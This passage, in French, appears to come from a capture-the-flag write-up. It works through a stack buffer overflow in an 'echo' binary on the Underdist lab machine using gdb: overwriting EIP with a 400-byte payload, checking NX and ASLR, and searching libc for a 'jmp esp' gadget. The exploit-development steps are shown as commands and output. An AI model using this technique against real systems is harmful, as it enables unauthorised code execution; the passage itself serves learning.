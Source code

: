 Visiblement non, on a écrasé EIP. Voyons l'état de la stack au moment de l'exploitation :

```shellsession
(gdb) r `python -c 'print "A"*400'`
Starting program: /home/underdist/.bin/echo `python -c 'print "A"*400'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg
eax            0x0      0
ecx            0xb7fd64c0       -1208130368
edx            0xb7fd7340       -1208126656
ebx            0xb7fd5ff4       -1208131596
esp            0xbffff5d0       0xbffff5d0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x41414141       0x41414141
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffff5d0:      'A' <repeats 92 times>
```

Nice. Le registre esp pointe vers des données à nous, à priori sur la fin de notre chaine.

Dernière interrogation : NX est-il activé ? Un coup dans `Cutter` nous indique que non. L'exploitation devrait être triviale, on va pouvoir se passer de ROP.

Je voudrais juste écraser l'adresse de retour par celle d'un `jmp esp` mais je ne trouve aucune instruction correspondante dans le binaire (normal vu qu'il est très court et linké dynamiquement, il a un jeu d'instructions limité).

Comme l'ASLR n'est pas activé on va fouiller dans la libc qui est chargée toujours à la même adresse :

```
(gdb) info proc mappings
process 5312
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0       /home/underdist/.bin/echo
         0x8049000  0x804a000     0x1000          0       /home/underdist/.bin/echo
        0xb7e89000 0xb7e8a000     0x1000          0        
        0xb7e8a000 0xb7fd4000   0x14a000          0        /lib/i386-linux-gnu/libc-2.13.so
        0xb7fd4000 0xb7fd6000     0x2000   0x14a000        /lib/i386-linux-gnu/libc-2.13.so
        0xb7fd6000 0xb7fd7000     0x1000   0x14c000        /lib/i386-linux-gnu/libc-2.13.so
        0xb7fd7000 0xb7fda000     0x3000          0        
        0xb7fde000 0xb7fe1000     0x3000          0        
        0xb7fe1000 0xb7fe2000     0x1000          0           [vdso]
        0xb7fe2000 0xb7ffe000    0x1c000          0        /lib/i386-linux-gnu/ld-2.13.so
        0xb7ffe000 0xb7fff000     0x1000    0x1b000        /lib/i386-linux-gnu/ld-2.13.so
        0xb7fff000 0xb8000000     0x1000    0x1c000        /lib/i386-linux-gnu/ld-2.13.so
        0xbffdf000 0xc0000000    0x21000          0           [stack]
(gdb) find /b 0xb7e8a000, 0xb7fd4000, 0xff, 0xe4
0xb7e8ca35
0xb7fa1593
```